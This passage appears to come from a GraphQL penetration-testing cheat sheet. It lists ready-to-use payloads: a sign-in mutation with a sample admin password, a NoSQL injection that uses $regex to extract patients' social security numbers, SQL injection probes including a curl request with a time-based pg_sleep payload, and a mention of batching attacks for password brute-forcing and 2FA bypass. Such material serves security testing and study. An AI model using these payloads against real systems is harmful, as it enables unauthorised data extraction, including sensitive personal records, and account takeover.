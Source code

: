 ### Use mutations

Mutations work like function, you can use them to interact with the GraphQL.

```
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", <email:"dan@dan.com>") {id name email}}

```

### NOSQL injection

Use `$regex`, `$ne` from  inside a `search` parameter.

```
{
  doctors(
    options: "{\\"limit\\": 1, \\"patients.ssn\\" :1}",
    search: "{ \\"patients.ssn\\": { \\"$regex\\": \\".*\\"}, \\"lastName\\":\\"Admin\\" }")
    {
      firstName lastName id patients{ssn}
    }
}

```

### SQL injection

Send a single quote `'` inside a graphql parameter to trigger the SQL injection

```
{
    bacon(id: "1'") {
        id,
        type,
        price
    }
}

```

Simple SQL injection inside a graphql field.

```
curl -X POST <http://localhost:8080/graphql\\?embedded_submission_form_uuid\\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\\(30\\)%3B--%27>

```

### GraphQL Batching Attacks

Common scenario:

- Password Brute-force Amplification Scenario
- 2FA bypassing
